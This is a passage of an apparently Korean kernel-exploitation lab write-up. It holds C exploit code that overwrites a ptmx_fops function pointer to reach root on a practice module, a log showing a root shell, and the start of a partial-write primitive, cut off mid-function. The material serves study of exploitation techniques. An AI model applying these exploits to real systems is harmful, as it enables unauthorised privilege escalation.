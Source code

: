 ```c
	}

	_write(fd, ptmx_fops+128, (unsigned long long)&payload);
	fcntl(ptmx_fd, F_SETFL, FASYNC);

	uid = getuid();
	printf("uid: %d\n", uid);

	if(uid) {
		printf("failure\n");
		exit(1);
	}
	execve("/bin/sh", NULL, NULL);
	return 0;
}
```

**result**
```sh
test@ubuntu:~/exercises/arbitrary_write$ sudo insmod ret2usr_mod.ko
test@ubuntu:~/exercises/arbitrary_write$ ./ex1
uid: 0
# id
uid=0(root) gid=1001(test) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare),1001(test)
#
```

---

# Partical Write Exploit
이번에는 원하는 위치에 원하는 값을 쓸 수 있지만, 제약 조건이 생겼다.

원하는 값을 즉시 적을 수 있는 것이 아니라, 1씩 증가시킬 수 있다는 것.
기본적인 방법은 [Arbitary Address Write Exploit](#arbitary-address-write-exploit)와 동일하지만, 프리미티브 구현을 다르게 해야 한다.

이 과정에서 겪은 시행착오를 설명하자면, (처음 짰던 프리미티브를 날려먹었다.) `AAW Exploit`과 동일하게 `ptmx_fops` 구조체 내의 `fasync` 함수 포인터를 1씩 여러번, `payload()`함수의 주소가 될 때까지 증가시키도록 프리미티브를 짰었다.
그러나 그 과정이 ioctl을 대략 `0x7F01****`번 호출해야 한다는 것을 간과하고 익스를 돌리는 순간, 그램은 이륙을 시작하고 그대로 40분동안 익스가 돌아갔다. (물론 익스는 계산미스로 실패)

아래 코드는 위의 시행착오를 겪고 난 이후 수정한 프리미티브이다.

```c
void _write(int fd, uint64_t addr, uint64_t orgValue, uint64_t chValue) {
        struct drv_req req;
        uint64_t count;
        int i;
        uint8_t *mem = malloc(0x10);
        *(uint64_t *)mem = orgValue;

        for(i=0; i<4; i++) {
                int shifts = 8 * i;
                uint64_t target = addr << shifts;
                uint8_t orgByte = *(mem+i);
                uint8_t chByte  = ((chValue & (0xff << 8*i))>>8*i);
                uint8_t loopCount;
                int count;
                if(orgByte > chByte) {
                        loopCount = (0x100 - orgByte) + chByte;
                } else {
                        if(orgByte == chByte) {
                                continue;
                        }
```